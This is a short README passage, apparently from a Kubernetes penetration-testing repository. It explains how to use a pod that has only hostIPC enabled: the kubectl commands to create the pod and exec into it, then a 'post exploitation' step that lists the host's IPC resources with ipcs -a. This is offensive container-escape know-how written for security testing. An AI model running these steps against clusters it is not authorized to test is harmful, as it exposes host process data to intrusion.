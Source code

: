 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the ipcs command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semephores). If you find one, you will likely need to create a program that can read them. 

[pod-hostipc-only.yaml](pod-hostipc-only.yaml)

### Create pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostipc-only.yaml   

# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc-only/pod-hostipc-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc-only -- bash
```

### Post exploitation 
```bash
# Look for any use of inter-process communication on the host 
ipcs -a
```

Reference: https://opensource.com/article/20/1/inter-process-communication-linux